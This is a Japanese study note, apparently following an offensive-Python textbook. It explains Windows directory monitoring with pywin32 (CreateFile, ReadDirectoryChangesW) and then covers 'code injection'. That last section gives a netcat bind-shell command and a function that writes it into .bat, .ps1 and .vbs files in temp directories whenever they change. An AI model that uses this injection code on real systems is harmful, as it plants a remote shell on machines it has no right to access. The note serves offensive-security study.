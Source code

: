 # monitor関数

いつそのディレクトリでそのファイルが加えられたか、削除されたか、変更されたかを監視する

```python
FILE_LIST_DIRECTORY = 0x001
PATHS = ['c:\\WINDOWS\\Temp', tempfile.gettempdir()]
```

`PATHS`が監視するディレクトリのリスト。

`tempfile.gettempdir()`は、一時ファイルを格納するディレクトリ。
（ターミナルでpython起動して確認できる。）

## win32file.CreateFile

```python
h_directory = win32file.CreateFile(
        path_to_watch,
        FILE_LIST_DIRECTORY,
        win32con.FILE_SHARE_READ | win32con.FILE_SHARE_WRITE | win32con.FILE_SHARE_DELETE,
        None,
        win32con.OPEN_EXISTING,       
        win32con.FILE_FLAG_BACKUP_SEMANTICS,
        None
    )
```

まずはこれで監視するディレクトリのハンドル取得する。

`CreateFile`の第一引数はファイル名だけど、ここでは監視対象のディレクトリのパス。

第二引数は、読み取り・書き込み等のアクセスタイプ（int）。

第三引数でファイルの共有方法を指定する：

- `FILE_SHARE_READ`：後続のオープン操作で読み取りアクセスが要求された場合にそのオープンを許可する
- `FILE_SHARE_WRITE`：後続のオープン操作で書き込みアクセスが要求された場合にそのオープンを許可する
- `FILE_SHARE_DELETE`：後続のオープン操作で削除アクセスが要求された場合にそのオープンを許可する

`OPEN_EXISTING`で、ファイルがあればオープンするという意味。

その次の引数はファイルの属性やフラグを指定。

`FILE_FLAG_BACKUP_SEMANTICS`バックアップまたは復元操作のためにファイルをオープンまたは作成する。

参考：

 - [ファイル操作](http://wisdom.sakura.ne.jp/system/winapi/win32/win111.html)
 - [win32file.CreateFileについて](http://timgolden.me.uk/pywin32-docs/win32file__CreateFile_meth.html)

## win32file.ReadDirectoryChangesW


ファイル操作があったことを知らせてくれる。

返り値は(action, filename)のようなリスト=（発生したイベントのタイプ,変更が加えられたファイル名）

```python
results = win32file.ReadDirectoryChangesW(
                h_directory,
                1024,
                True,
                win32con.FILE_NOTIFY_CHANGE_ATTRIBUTES |
                win32con.FILE_NOTIFY_CHANGE_DIR_NAME |
                win32con.FILE_NOTIFY_CHANGE_FILE_NAME |
                win32con.FILE_NOTIFY_CHANGE_LAST_WRITE |
                win32con.FILE_NOTIFY_CHANGE_SECURITY |
                win32con.FILE_NOTIFY_CHANGE_SIZE,
                None,
                None
            )
``` 

第一引数に（上で作った）ディレクトリへのハンドル。

`1024`は、得た結果を割り当てるバッファのサイズ。

第三引数では`ReadDirectoryChangesW`関数がディレクトリまたはディレクトリツリーを監視するか否かを指定する。

Trueなら指定されたディレクトリをルートとするディレクトリツリーを監視する。

その後の長いやつは”監視に使うフィルタ条件”つまり「指定したものについては監視します！」ということ。
意味は以下の通り：

- `FILE_NOTIFY_CHANGE_ATTRIBUTES`：ファイル属性の変更
- `FILE_NOTIFY_CHANGE_DIR_NAME`：ディレクトリ名の変更
- `FILE_NOTIFY_CHANGE_FILE_NAME`：ファイル名の変更
- `FILE_NOTIFY_CHANGE_LAST_WRITE`：ファイルの前回書き込み日時
- `FILE_NOTIFY_CHANGE_SECURITY`：セキュリティ記述子
- `FILE_NOTIFY_CHANGE_SIZE`：ファイルサイズの変更

参考：

- [Win32API ディレクトリの変更を監視する](https://s-kita.hatenablog.com/entry/20100707/1278512099)
- [win32file.ReadDirectoryChangesWについて](http://timgolden.me.uk/pywin32-docs/win32file__ReadDirectoryChangesW_meth.html)

# コードインジェクション

定数の部分は自分の環境にあわせて。

```python
NETCAT = 'c:\\users\\tim\\work\\netcat.exe'
TGT_IP = '192.168.1.208'
CMD = f'{NETCAT} -t {TGT_IP} -p 9999 -l -c'

FILE_TYPES = {
    '.bat': ["\r\nREM bhpmarker\r\n", f'\r\n{CMD}\r\n'],
    '.ps1': ["\r\n#bhpmarker\r\n", f'\r\nStart-Process "{CMD}"\r\n'],
    '.vbs': ["\r\n'bhpmarker\r\n", f'\r\nCreateObject("Wscript.Shell").Run("{CMD}")\r\n'],
}
```
これヤベー。
すげー

ファイル変更があったら、（ファイルの拡張子に応じて）そのファイルの中にこちら側の悪意あるコードを書き入れる（コードインジェクション）。

そのコードがnetcat。ターゲットにポート9999番でリッスンさせるもの。

```python
def inject_code(full_filename, contents, extension):
    if FILE_TYPES[extension][0].strip() in contents:
        return

    full_contents = FILE_TYPES[extension][0]
    full_contents += FILE_TYPES[extension][1]
    full_contents += contents
    with open(full_filename, 'w') as f:
        f.write(full_contents)
    print('\\o/ Injected Code')
```

上記の順番で繋げたものをファイルに書き入れる。

`os.path.splitext`はこんな動作する👇

```
>>> os.path.splitext('exploit.py')
('exploit', '.py')
```


